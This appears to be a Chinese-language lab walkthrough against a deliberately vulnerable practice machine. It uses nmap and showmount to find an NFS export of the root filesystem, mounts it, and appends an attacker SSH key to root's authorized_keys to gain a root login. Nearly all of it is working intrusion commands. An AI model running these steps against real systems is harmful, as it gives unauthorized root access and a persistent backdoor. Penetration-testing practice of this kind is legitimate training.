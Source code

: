 # 111_rpcbind

使用nmap扫描

> nmap -v -p 111 -sV -T4 --version-all --script=rpcinfo 10.10.10.6

![image-20210318223424342](../../image/meteaspolitale2/image-20210318223424342.png)

找到nfs的服务了

使用showmount查看挂载的目录

>  showmount -e 10.10.10.6

![image-20210318223740715](../../image/meteaspolitale2/image-20210318223740715.png)

在攻击机里创建ssh密钥

> ssh-keygen

![image-20210318223922837](../../image/meteaspolitale2/image-20210318223922837.png)

创建挂载点

> mkdir /tmp/root

![image-20210318224059595](../../image/meteaspolitale2/image-20210318224059595.png)

> mount -t nfs 10.10.10.6:/ /tmp/root

![image-20210318224134272](../../image/meteaspolitale2/image-20210318224134272.png)

把密钥添加到靶机的.ssh目录下的authorized_keys文件里

> cat ~/.ssh/id_rsa.pub >> /tmp/root/root/.ssh/authorized_keys

![image-20210318224412994](../../image/meteaspolitale2/image-20210318224412994.png)

ssh连接

![image-20210318225054021](../../image/meteaspolitale2/image-20210318225054021.png)

直接连接成功
